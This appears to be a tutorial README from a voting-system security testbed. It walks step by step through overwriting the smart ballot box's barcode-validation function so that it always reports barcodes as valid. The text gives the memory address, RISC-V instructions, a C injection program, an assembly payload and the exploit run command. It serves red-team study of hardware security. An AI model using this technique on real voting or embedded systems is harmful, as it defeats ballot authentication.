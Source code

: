This is an example of how to overwrite instructions in the SBB code. The peek-poke server won't let you write directly to SBB instructions, but you can use it to write instructions to the `malware` function that will write to the SBB code. This exploit walks through how to overwrite the function responsible for validating barcodes to always return `BARCODE_VALID`.

# Examine the SBB source code & use objdump

As you might be able to predict by thinking about how the SBB source code works, there is a function that is called to validate whether a given barcode is valid. Let's find this function and see what it does.

Looking at the code that controls the SBB state machine, we see a function called [`run_barcode_detected`](../../../source/sbb/sbb_machine.c#L279). This function calls [`is_barcode_valid`](../../../source/sbb/sbb.c#L93), which is a wrapper over [`crypto_check_barcode_valid`](../../../source/sbb/sbb_crypto.c#L61). 

The `crypto_check_barcode_valid` function returns a `barcode_validity` enum, which is defined [here](https://gitlab-ext.galois.com/ssith/voting-system/blob/master/source/sbb/sbb_t.h#L93):

```
typedef enum { // invalid barcode classifications
              BARCODE_VALID,
              BARCODE_INVALID_LENGTH,
              BARCODE_INVALID_ENCODING,
              BARCODE_INVALID_SIGNATURE,
              BARCODE_INVALID_TIMESTAMP,
              BARCODE_INVALID_OTHER,
} barcode_validity;
```

Each member of that enum will be compiled to the index at which they appear; this means that `BARCODE_VALID`, the value you would like to return, will compile to `0`.

Your goal, then, is to overwrite `crypto_check_barcode_valid` to always return 0, which will be interpreted as the `BARCODE_VALID` value.

Let's find the address of that `crypto_check_barcode_valid` starts at:

```
```

Examining the objdump in your favorite text editor, you can find the relevant address:
```
c0026f3c <crypto_check_barcode_valid>:
c0026f3c:       f8010113                addi    sp,sp,-128
c0026f40:       06112e23                sw      ra,124(sp)
c0026f44:       06812c23                sw      s0,120(sp)
c0026f48:       08010413                addi    s0,sp,128
c0026f4c:       f8a42623                sw      a0,-116(s0)
```

Here you'll want `0xc0026f3c`. Note that because we want to overwrite the function to simple return 0 we can step on the part of the function which sets up the stack by moving the stack pointer (sp), but for some more complicated exploits you might want to mind the setup & tear down part of the function body.

To construct this exploit you will need to take two steps: first, get the hex representation of the instructions necessary to return 0, and then get the assembly which writes those instructions to the correct memory location (the beginning of the `crypto_check_barcode_valid` function). This is because the peek-poke server will only let you write instructions to the `malware` function; you cannot write these instructions directly.

# Binary for return 0

First let's get the hex for the RISC-V assembly instructions for the function which simply returns 0. In RISC-V the return value is passed in register `a0`, so the instructions are:

```
mv a0, zero
ret
```

Simple. For more complicated operations you may wish to use a compiler; the [godbolt compiler explorer](https://godbolt.org/z/o15-m-) is a useful online tool. Just be mindful that the highlighting does not always match up exactly to the source code.

Next, let's save this into a file called `return-0.asm` and get the hex for these instructions:

```
[nix-shell]$ riscv32-unknown-elf-as -o return-0.elf return-0.asm
[nix-shell]$ riscv32-unknown-elf-objdump -d return-0.elf
...
Disassembly of section .text:

00000000 <.text>:
   0:	00000513          	li	a0,0
   4:	00008067          	ret
```

Next up: write those hex values (`0x00000513` and `0x00008067`) to the location of the first instruction in `crypto_check_barcode_valid` (`0xc0026f3c`).

# Inject the return 0 instructions

Let's write [another C program](https://godbolt.org/z/sjD4CL) that has the desired effect:

```
void exploit() {
    // write to the address of crypto_check_barcode_valid
    int *x = (int *)0xc0026f3c;
    // this is the "load 0 into a0" instruction
    x[0] = 0x00000513;
    // this is the "ret" instruction
    x[1] = 0x00008067;
}
```

Get the RISC-V 32-bit assembly for this function, and pick out the bits relevant to the function body (everything between the instructions that move the stack pointer "sp" around):

```
lui     a0, 786471
addi    a0, a0, -196
sw      a0, -12(s0)
lw      a0, -12(s0)
addi    a1, zero, 1299
sw      a1, 0(a0)
lw      a0, -12(s0)
lui     a1, 8
addi    a1, a1, 103
sw      a1, 4(a0)
```

Save this into a file called `inject-return-0.asm`. We can use this file as the payload to the `run_exploit.sh` script.

# Run the exploit

Move a directory down and call `run_exploit.sh`:

```
cd ..; ./run_exploit.sh inject-return-0.asm
```

Remember that you need to set the `SBB_IP` and `malware_start_addr` environment variables before running `run_exploit.sh`. For a more in-depth explanation, see the [AES-key-to-display README](../AES-key-to-display/README.md). 

# Recap

This example demonstrated how to rewrite the body of a function in the source code with your own sequence of instructions (though this sequence must be no longer than the original function body). To do this, you:

* found the function you wanted to overwrite, and what you wanted to overwrite it with, by inspecting the source code
* found the memory location of the first instruction in the function you wanted to write using objdump
* got the assembly for the instructions you wanted to write
    * In this simple example you put them together manually; you could also use a compiler
* got the hex values of those instructions using objdump 
* wrote a C program which wrote those hex values to the memory location of the first instruction in the function you wanted to overwrite
    * If you want to modify control-flow in a more complicated way, you will need to be careful to not step on the stack frame setup & tear-down code at the beginning and end of the function
* got the assembly for this function using a RISC-V 32-bit compiler
* ran `./run_exploit.sh` with that assembly as the payload
